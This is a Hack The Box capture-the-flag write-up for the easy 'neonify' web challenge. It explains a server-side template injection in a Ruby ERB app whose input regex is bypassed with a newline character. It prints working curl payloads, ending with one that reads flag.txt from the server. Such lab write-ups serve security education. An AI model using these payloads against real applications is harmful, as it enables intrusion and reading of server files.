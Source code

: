 ```yaml
---
title: "Hackthebox neonify writeup"
date: 2022-06-21T00:56:12+05:30
draft: false
---
```


## Challenge Description :
> Name : neonify

> Difficulty : Easy

> Points : 20



> # “ It’s time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!“



**What’s This?**

The website takes input from the user and styles it in neon

![](https://cdn-images-1.medium.com/max/3724/1*B_e7cLnf78vSNoj3fjSikQ.png)

Looking at the code Shows it runs ruby in the backend and checks for the user input using regex is between a-z and 0–9.

![](https://cdn-images-1.medium.com/max/2000/1*NwncYfl_aO3xI0QE2K_W5Q.png)

A quick Google search showed ERB is a templating system for ruby.



**What is that? **

-A user can run Ruby code in the plaintext document. As shown in the image

[https://docs.ruby-lang.org/en/2.3.0/ERB.html](https://docs.ruby-lang.org/en/2.3.0/ERB.html)

![](https://cdn-images-1.medium.com/max/3648/1*WKDvzXOF9ppnMvp56gIeHw.png)

**Vulnerability: Server-side Template Injection (SSTI)**

What is that?

As the name suggests an attacker can run a user native template syntax to inject the malicious payload on the server-side. This happens when the user-provided input is directly concatenated into the template.

Ex: If we provide ```<%= 7 * 7 %>``` as the user input and the server runs this as a template and returns the provided user input it will Produce 7*7=49  Output.

When we tried to inject this we get the error

![](https://cdn-images-1.medium.com/max/2460/1*dybzTXRFiqL3DeeggFsDDQ.png)

It’s because the regex is validating the user input is between 0–9 or a-z

We can search the google Ruby regex Bypass

[https://brakemanscanner.org/docs/warning_types/format_validation/](https://brakemanscanner.org/docs/warning_types/format_validation/)

![](https://cdn-images-1.medium.com/max/3054/1*Uuwnu_5Fo2m4z9unR9R_MQ.png)

An attacker can bypass this regex validator using the \n character

**Approach :**

The user input is sent to the server using POST Request using the in the form means application/x-www-form-encoded so we can build a payload in the URL Encode.

Anything after ```\n``` is skipped in the regex.

```%0A = \n```

Payload :

    curl -X POST -H "Content-Type:application/x-www-form-urlencoded"  -d "neon=lol%0iamhere" [http://159.65.81.40:30169/](http://159.65.81.40:30169/)

![](https://cdn-images-1.medium.com/max/2320/1*PQuIVHFY7TU969Ho_-MJXA.png)

Test if actually vulnerable :

    curl -X POST -H "Content-Type:application/x-www-form-urlencoded"  -d "neon=lol%0A<%= 7*7 %>" [http://159.65.81.40:30169/](http://159.65.81.40:30169/)

![](https://cdn-images-1.medium.com/max/2000/1*TyFfzRALeFSa9rHJlIro8w.png)

Yes, it is !!

![](https://cdn-images-1.medium.com/max/2000/1*FShlRl5mkFtlf-ZPvutWGg.gif)



As the flag lies in the same directory as in the code let's grab a Flag.

![](https://cdn-images-1.medium.com/max/2000/1*L1yNYsTdS2K7GKUm82fRsQ.png)



***Final Payload :***

    curl -X POST -H "Content-Type:application/x-www-form-urlencoded"  -d "neon=lol%0A%3C%25%3D+File.open%28%27flag.txt%27%29.read+%25%3E" [http://159.65.81.40:30169/](http://159.65.81.40:30169/)


![](https://cdn-images-1.medium.com/max/2138/1*zcFuWFkzLdkqB6GZxqYBaw.png)
> # **Pwned!**
![](https://cdn-images-1.medium.com/max/2000/1*U7mCeT-gaQxdsThE9jXHSQ.png)
